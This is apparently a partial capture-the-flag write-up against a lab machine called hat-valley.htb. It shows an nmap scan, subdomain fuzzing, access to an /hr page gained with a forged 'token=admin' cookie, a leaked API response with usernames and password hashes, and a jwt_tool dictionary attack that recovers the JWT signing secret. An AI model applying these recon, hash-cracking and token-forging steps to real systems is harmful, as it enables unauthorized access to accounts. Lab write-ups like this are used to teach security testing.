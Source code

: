 ```console
└─$ nmap -A -p- -T4 -Pn 10.129.228.81
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-27 12:49 CDT
Nmap scan report for 10.129.228.81
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7254afbaf6e2835941b7cd611c2f418b (ECDSA)
|_  256 59365bba3c7821e326b37d23605aec38 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.84 seconds
```

```console
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -u http://FUZZ.hat-valley.htb/ -v -fs 0  -c   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://FUZZ.hat-valley.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 173ms]
| URL | http://store.hat-valley.htb/
    * FUZZ: store
```



Upon inspection of app.js I found references to /api and /hr. Trying /hr brought me to a dashboard. Later I learned this had only worked becuase I had set my cookie to token=admin when trying other things.



When trying to capture more requests in burp I noticed that there was additional pages being loaded however I was unable to access them due to a jwt token error. This was rectified by removing the cookie and loading the page again revealing usernames and hashes.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 27 Oct 2022 20:31:55 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 775
Connection: close
x-powered-by: Express
access-control-allow-origin: *
etag: W/"307-yT9RDkJOX+lsRRlC/J2nEu9d6Is"

[{"user_id":1,"username":"christine.wool","password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649","fullname":"Christine Wool","role":"Founder, CEO","phone":"0415202922"},{"user_id":2,"username":"christopher.jones","password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1","fullname":"Christopher Jones","role":"Salesperson","phone":"0456980001"},{"user_id":3,"username":"jackson.lightheart","password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436","fullname":"Jackson Lightheart","role":"Salesperson","phone":"0419444111"},{"user_id":4,"username":"bean.hill","password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f","fullname":"Bean Hill","role":"System Administrator","phone":"0432339177"}]
```


e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1	sha256	chris123

└─$ python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY2OTA0MTAwfQ.Tao2-H_k4iIaqh1WHmElOKuDs3C4RdBe9AyaI5vjiJU -d /usr/share/wordlists/rockyou.txt -C 

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 

[*] Tested 1 million passwords so far
[*] Tested 2 million passwords so far
[*] Tested 3 million passwords so far
[*] Tested 4 million passwords so far
[*] Tested 5 million passwords so far
[*] Tested 6 million passwords so far
[*] Tested 7 million passwords so far
[*] Tested 8 million passwords so far
[*] Tested 9 million passwords so far
[*] Tested 10 million passwords so far
[*] Tested 11 million passwords so far
[*] Tested 12 million passwords so far
[*] Tested 13 million passwords so far
[+] 123beany123 is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "123beany123"
